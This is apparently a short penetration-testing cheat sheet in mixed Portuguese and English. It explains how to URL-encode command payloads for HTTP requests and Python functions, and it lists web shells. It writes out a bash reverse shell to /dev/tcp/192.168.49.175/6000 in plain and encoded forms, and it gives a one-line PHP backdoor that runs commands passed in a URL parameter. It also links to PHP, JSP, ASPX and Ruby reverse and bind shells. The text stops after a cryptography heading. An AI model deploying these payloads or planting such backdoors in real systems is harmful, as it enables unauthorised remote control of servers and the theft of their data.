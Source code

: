 ## Encoding

### Encode command in HTTP Request

1: Codificação/decodificação online: https://www.urlencoder.org/

2: Às vezes, apenas `alguns caracteres` serão codificados

### Encode command in Python function

1: Substitua `'+'` por `''`. Por exemplo, `sh -i >& /dev/tcp/192.168.49.175/6000 0>&1 ==> sh+-i >& /dev/tcp/192.168.49.175/6000+0`

### Encode command in Python function in HTTP Request

1: Use a codificação de URL primeiro

2: Substitua `'%20'` por `'+'`. Por exemplo, `sh -i >& /dev/tcp/192.168.49.175/6000 0>&1 ==> sh+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.49.175%2F6000+0%3E%261`

## Web Shell

1: PHP generic

One-line backdoor: `<?php echo shell exec($_GET['cmd'].' 2>&1');`

Web backdoor: https://github.com/WhiteWinterWolf/wwwolf-php-webshell/blob/master/webshell.php

Web backdoor2: https://github.com/artyuum/Simple-PHP-Web-Shell/blob/master/index.php

2: PHP for Windows

Reverse Shell: https://github.com/Dhayalanb/windows-php-reverse-shell

Bind Shell: Check [PHP generic]

3: PHP for Linux

Reverse Shell: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

4: JSP

Reverse Shell: https://github.com/tennc/webshell/blob/master/jsp/jsp-reverse.jsp

5: ASPX

Reverse Shell: https://github.com/borjmz/aspx-reverse-shell/blob/master/shell.asp

6: Others

Ruby reverse shell: https://github.com/secjohn/ruby-shells/blob/master/revshell.rb

Ruby bind shell: https://github.com/secjohn/ruby-shells/blob/master/shell.rb

## Cryptography

1: Escreva um `script python`

